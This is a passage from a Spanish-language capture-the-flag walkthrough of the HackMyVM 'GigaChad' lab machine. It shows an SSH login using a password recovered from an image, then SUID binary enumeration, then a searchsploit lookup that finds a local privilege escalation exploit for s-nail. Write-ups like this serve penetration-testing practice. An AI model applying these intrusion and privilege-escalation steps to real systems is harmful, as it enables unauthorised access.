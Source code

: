 Como vemos, tras recortar un poco la imagen, nos sale un resultado: **`Maiden's Tower`**. Vamos a probar esto como contraseña. Recordad que el usuario es **`chad`**:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/GigaChad]
└─# ssh chad@192.168.1.115
chad@192.168.1.115's password: maidenstower
Linux gigachad 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 21 11:56:59 2023 from 192.168.1.106
chad@gigachad:~$
```

¡Perfecto! Ya estamos como `Chad` en la máquina, un paso más cerca de conseguir el **control total** de la máquina.

### Subida de privilegios
Para obtener `root` comenzaré por enumerar los ficheros con permisos `SUID` de la máquina:

```sh
chad@gigachad:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```

Entre todos estos binarios vemos uno que no es demasiado común, estamos hablando del binario **`s-nail-privsep`**, vamos a ver si encontramos alguna vulnerabilidad:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/GigaChad]
└─# searchsploit s-nail        
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalation                                                        | multiple/local/47172.sh
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
